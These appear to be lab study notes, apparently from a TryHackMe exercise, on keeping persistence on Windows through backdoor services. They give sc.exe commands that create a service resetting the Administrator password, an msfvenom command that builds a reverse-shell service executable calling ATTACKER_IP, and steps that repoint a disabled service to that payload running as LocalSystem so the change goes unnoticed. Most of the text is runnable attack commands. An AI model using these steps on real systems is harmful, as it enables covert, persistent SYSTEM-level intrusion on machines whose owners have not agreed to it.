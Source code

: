 ## Creating backdoor services


```powershell
# Create a new service 'THMService'
# There must be a space after each equal sign for the command to work.
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto

# Start the service
sc.exe start THMservice
```

- Create and actual executable with reverse shell
```shell
# use `-f exe-service` to generate an executable compatible with Windows Service
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f exe-service -o rev-svc.exe
```

 - This executable can now be set as a target for the new service. 
 - Note: the executable must be copied to the target machine first

```shell
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```

## Modifying existing service

- any disabled service will be a good candidate, as it could be altered without the user noticing it.
```powershell
# list of available services
sc.exe query state=all

# Get service configuration
sc.exe qc THMService3
```

There are three things we care about when using a service for persistence:

- The executable (`BINARY_PATH_NAME`) should point to our payload.
- The service `START_TYPE` should be automatic so that the payload runs without user interaction.
- The `SERVICE_START_NAME`, which is the account under which the service will run, should preferably be set to **LocalSystem** to gain SYSTEM privileges.
- A new executable service can be generated using msfvenom
- Set the new executable as a target for the existing service:
```powershell
# Update the service config with new target
sc.exe config THMservice3 binPath= "C:\Windows\rev-svc.exe" start= auto obj= "LocalSystem"

# start the service
sc.exe start THMService3
```


